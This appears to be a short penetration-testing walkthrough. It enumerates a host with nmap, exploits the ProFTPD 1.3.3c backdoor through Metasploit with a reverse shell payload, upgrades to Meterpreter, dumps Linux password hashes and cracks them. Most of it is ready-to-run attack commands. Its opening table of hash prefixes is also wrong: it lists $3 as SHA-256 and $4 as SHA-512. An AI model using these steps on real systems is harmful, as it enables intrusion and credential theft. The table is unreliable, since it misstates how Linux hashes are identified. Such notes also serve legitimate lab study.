 ### Linux Password Hashes

| Value | Hashing Algorithms |
| ----- | ------------------ |
| $1    | MD5                |
| $2    | Blowfish           |
| $3    | SHA-256            |
| $4    | SHA-512            |

***

### Enumeration
##### Nmap
```
nmap -sV IP
```

```
nmap --script vuln -p21 IP
```

##### SearchSploit
```
searchsploit proftpd 1.3.3c
```

### Exploitation
##### Msfconsole
```
use exploit/unix/ftp/proftpd_133c_backdoor
set payload payload/cmd/unix/reverse
set rhosts IP
set lhost IP
exploit -z
```

**Upgrade the Session to Meterpreter**
It uses `shell_to_meterpreter` module to upgrade the session.
```
sessions
sessions -u 1
```

### Post Exploitation Module
`Hashdump` cannot be used even though we have a meterpreter session because the `load priv` extension is not supported by this meterpreter type (x86/linux).
```
use post/linux/gather/hashdump
set session 2
run
```

### Crack the Hash
```
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

